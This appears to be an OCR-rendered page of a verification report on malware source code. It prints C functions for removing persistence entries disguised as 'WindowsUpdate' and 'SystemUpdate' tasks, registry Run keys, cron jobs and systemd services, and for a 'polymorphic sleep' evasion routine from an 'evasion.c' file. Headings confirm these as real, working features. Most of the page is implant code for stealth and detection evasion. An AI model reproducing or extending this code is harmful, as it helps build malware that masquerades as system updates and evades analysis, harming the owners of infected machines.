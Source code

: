 **Code:**
```c
void remove_persistence(void) {
#ifdef PLATFORM_WINDOWS
    // Remove from Run registry key
    RegDeleteValueA(HKEY_CURRENT_USER, 
                    "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run",
                    "WindowsUpdate");
    
    // Remove scheduled tasks
    system("schtasks /delete /tn \"WindowsUpdate\" /f >nul 2>&1");
    system("schtasks /delete /tn \"SystemUpdate\" /f >nul 2>&1");
#else
    // Remove cron job
    system("(crontab -l 2>/dev/null | grep -v 'system_update' | crontab -) 2>/dev/null");
    
    // Remove systemd service
    system("systemctl --user disable system-update.service 2>/dev/null");
    
    // Remove autostart
    // ... (full implementation)
#endif
}
```

**NOT a stub - actually removes persistence!**

---

## 🔧 ADVANCED TECHNIQUES VERIFIED

### A. **Polymorphic Sleep** - REAL
**Location:** `evasion.c` line 300+

```c
void polymorphic_sleep(uint32_t target_ms) {
    int strategy = get_random_int() % 3;
    
    switch (strategy) {
        case 0: // Single sleep
            sleep_ms(target_ms);
            break;
        case 1: // Multiple chunks
            int chunks = 5 + (get_random_int() % 5);
            for (int i = 0; i < chunks; i++) {
                sleep_ms(target_ms / chunks);
            }
            break;
        case 2: // Sleep + busy-wait hybrid
            sleep_ms(target_ms * 3 / 4);
            uint32_t start = get_tick_count();
            while ((get_tick_count() - start) < (target_ms / 4)) {
                // Busy loop
            }
            break;
    }
}
```
